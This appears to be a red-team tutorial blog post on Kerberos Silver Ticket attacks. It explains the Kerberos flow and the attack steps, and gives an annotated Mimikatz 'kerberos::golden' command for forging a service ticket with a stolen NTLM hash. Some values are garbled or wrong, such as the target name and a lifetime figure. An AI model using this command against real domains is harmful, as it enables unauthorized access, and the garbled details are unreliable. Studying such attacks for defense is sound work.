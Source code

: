 ```yaml
---
title:  "Kerberos attacks 3-Silver Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 1-Silver Ticket"
categories:
  - Red-Teaming
toc: true
---
```


<img src="/img/silver/.PNG" alt="Getting-gz" width="1000" height="200"> 

## Silver Ticket
* A Silver Ticket is a forged Kerberos Ticket Granting Service (TGS) ticket
* A silver ticket attack involves compromising credentials and abusing the design of the Kerberos protocol. 
* A silver ticket only allows an attacker for forge ticket-granting service (TGS) tickets for specific services.
* TGS tickets are encrypted with the password hash for the service – therefore, if an adversary steals the hash for a service account they can mint TGS tickets for that service.
* A attacker can create a Silver Ticket by cracking a computer account password and using that to create a fake authentication ticket. Kerberos allows services to log in without double-checking that their token is actually valid, which attackers have exploited to create Silver Tickets.


## Kerberos Authentication Flow
  * 1-Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request
  * 2-KDC checks user information and creates TGT
  * 3-The TGT is encrypted, delivered to the user. Only the KRBTGT in the domain can open and read TGT data.
  * 4-The User presents the TGT to the DC when requesting a TGS ticket ,The DC opens the TGT & validates PAC checksum 
       --> If the DC can open the ticket & the checksum check out, TGT = valid. The data in the TGT is effectively copied to create the TGS ticket.
  * 5-The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user 
  * 6.The user connects to the server hosting the service & presents the TGS,The service opens the TGS ticket using its NTLM password hash.

 

## Silver Ticket Attacks Work 
Silver Ticket Attacks are post-exploitation attacks. That means that a threat actor must already have compromised a target system in the environment before they can generate a Kerberos Silver Ticket.

  * 1-gather information about the domain, such as the domain name and domain security identifier (SID)
  * 2-Obtain the DNS name under which the service principal name (SPN) for the targeted
  * 3-Use Mimikatz to obtain the local NTLM password (or password hash) for the Kerberos service running on the compromised system
  * 4-Use Mimikatz to forge a Kerberos TGS


## Argument
```
    kerberos::golden  ##Name of the module (there is no Silver module!) 
    /User:Administrator  ##Username for which the TGT is generated 
    /domain :karim.net    ## Domain FQDN 
    /sid:S-1-5-21-268341927-4156871508-1792461683  SID of the domain 
    /target : dcorp-dc dol larcorp .moneycorp .local  Target server FQDN 
    /service: cifs  The SPN name of service for which TGS is to be created 
    /rc4:6f5b5acaf7433b3282ac22e21e62ff22  ## NTLM (RC4) hash of the service account. Use /aes128 and       /aes256 for using AES keys. 
    /id:500 /groups:512    ## Optional User RID (default 500) and Group (default 513 512 520 518 519) 
    ptt /  ##Injects the ticket in current PowerShell process, no  to save the ticket on disk 
    Persistence - Silver Ticket 

                /startoffset:0  Optional when the ticket is available (default 0 - right now) in minutes. Use           negative for a ticket available from past and a larger number for future.  
                /endin:600 ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is          10 hours = 600 minutes
                /renewmax:10080 ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The           default AD setting is 7 days = 100800 
                
 ```
